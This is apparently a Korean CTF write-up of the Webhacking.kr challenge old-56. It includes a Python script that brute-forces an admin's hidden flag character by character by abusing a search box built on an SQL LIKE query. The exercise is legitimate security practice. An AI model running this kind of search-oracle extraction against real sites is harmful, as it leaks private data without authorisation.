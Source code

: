 ```yaml
---
title: ["[Webhacking.kr] old-56 (misc - 25)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, misc, bruteforce]
---
```


정체모를 보드판이 하나 있다.  
이것저것 검색해본 끝에 게시글을 검색하는 기능이라고 판단했다.  
(`FLAG{`를 검색하면 admin의 글이 나온다.)  

이대로 한 글자씩 brute forcing하면 될 것 같다.  
`%`가 wildcard로 동작하는것 같아 제외해주었다.  
LIKE문을 사용한 SQL 쿼리로 이루어져 있는 것 같다.  

마지막이 `}`인데 LIKE문이라 `_`에도 hit된다.  

## Payload
```python
import requests

url = "https://webhacking.kr/challenge/web-33/index.php"
cookies = {"PHPSESSID": "dmjrpfsds9jujfikg5hit9cnvr"}

flag='FLAG{'
while flag[-1] != '}':
    for i in range(39, 127):
        data = {
            'search': flag+chr(i)
        }
        response = requests.post(url,
                                 cookies=cookies,
                                 data=data)
        if 'admin' in response.text:
            flag = flag+chr(i)
            print(f"Flag is {flag}")
            break
```

